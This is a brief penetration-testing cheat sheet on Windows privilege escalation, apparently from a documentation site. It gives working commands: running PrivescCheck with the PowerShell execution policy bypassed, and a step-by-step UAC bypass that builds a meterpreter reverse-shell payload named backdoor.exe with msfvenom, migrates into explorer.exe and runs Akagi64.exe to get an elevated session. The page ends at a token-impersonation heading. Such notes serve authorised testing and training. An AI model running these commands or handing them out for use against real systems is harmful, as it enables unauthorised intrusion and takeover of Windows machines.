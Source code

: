 # Privilege Escalation

## <mark style="color:yellow;">Windows</mark>

{% hint style="info" %}
**Note**: if you have a valid user credential you can authenticate in windows target from SMB, RDP, WinRM.
{% endhint %}

### <mark style="color:yellow;">Automation script</mark>

```batch
:: https://github.com/itm4n/PrivescCheck
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```

### <mark style="color:yellow;">UAC Bypass</mark>

User Account Control (UAC) is a feature that enables a consent prompt for elevated activities.

Prerequisites:

1. User must be a member of the Administrators group. `net localgroup administrators`
2. Full interactive shell with the victim like meterpreter (a common nc.exe shell is not enough).

**(1) Metasploit**

```sh
search bypassuac
```

**(2) UACME**

```sh
# 1. Step
ps
migrate <PID explorer.exe>

# 2. Step - Upload Akagi (Akagi64.exe if x64)

# 3. Step - Create payload with msfvenom
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o backdoor.exe

# 4. Step - Start a listener (exploit/multi/handler)

# 5. Step - Run Akagi
Akagi64.exe 23 <payload_full_path> # NOTE FULL PATH

# Once run, we will get meterpreter session - getprivs/getsystem to get elevated privs
```

### <mark style="color:yellow;">Impersonate Tokens</mark>

**Metasploit - incognito**
